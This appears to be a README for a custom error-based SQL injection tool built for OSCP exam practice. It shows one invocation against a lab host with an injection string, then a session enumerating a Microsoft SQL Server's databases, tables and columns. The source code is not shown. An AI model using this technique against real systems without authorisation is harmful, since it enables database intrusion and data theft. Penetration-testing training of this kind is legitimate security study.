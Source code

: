 #### Use case

    This module is for error based SQL injection.
    SQLmap is a better andmore robust alternative, however,
    we are not allowed to use automation tools on the OSCP.
    Therefore, I created this custom module for my own usage.

#### Sample module wesqli
    wesqli -rh 10.11.1.229 -if burp.txt -t "1'" -sr -hp 127.0.0.1:8080 -o "DESC"
    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 1
    Server name: MAIL\SQLEXPRESS
    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 2
    Database version: Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) <br>    Aug 22 2017 17:04:49 <br>       Copyright (C) 2017 Microsoft Corporation<br>        Express Edition (64-bit) on Windows Server 2016 Standard 10.0 &lt;X64&gt; (Build 14393: ) (Hypervisor)<br>
    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 3
    Current database name: newsletter
    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 4
    Databases:
    tempdb
    newsletter
    msdb
    model
    master
    archive

    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 5
    Enter a database name: newsletter
    Tables in newsletter:
    users

    Options:

    1: List server name
    2: List version
    3: List current database name
    4: List all databases
    5: List tables from database
    6: List columns from a table
    7: List row values for a column
    Type 'exit' to exit


    Select an option (numerical value): 6
    Enter a database name: newsletter
    Enter a table name: users
    Columns in newsletter.users:
    username
    user_id
    email

##### _All modules have helper flags -h and --help for more assistance._